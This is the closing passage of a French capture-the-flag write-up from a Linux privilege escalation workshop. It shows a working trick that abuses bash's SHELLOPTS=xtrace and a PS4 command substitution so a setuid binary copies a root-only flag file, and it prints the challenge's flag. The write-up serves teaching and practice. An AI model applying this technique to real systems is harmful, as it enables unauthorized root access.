 Et ça marche :  

```plain
bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(cp /root/flag.txt /tmp; chmod 644 /tmp/flag.txt)' /usr/local/bin/whoisme
/usr/bin/logname
user2
bash-4.2$ ls /tmp/
firewalld-backup.zip  flag.txt  go_user3  setuid_user3  setuid_user3.c
bash-4.2$ cat /tmp/flag.txt

___________.__                      __            __
\_   _____/|  | _____     ____    _/  |____  ____/  |_
 |    __)  |  | \__  \   / ___\   \   __\  \/  /\   __\
 |     \   |  |__/ __ \_/ /_/  >   |  |  >    <  |  |
 \___  /   |____(____  /\___  / /\ |__| /__/\_ \ |__|
     \/              \//_____/  \/            \/

Congrats!! :D
FLAG: da96dd381dc607ccd3302312233531efa68b8b7b

-----------------------------------------------------
This challenge was created as part of:
Windows / Linux Local Privilege Escalation Workshop (@s4gi_)
```

Conclusion
----------

Un challenge différent des boot2root classiques avec un focus sur l'escalade de privilèges c'est toujours bon à prendre :)

*Published March 13 2018 at 13:56*
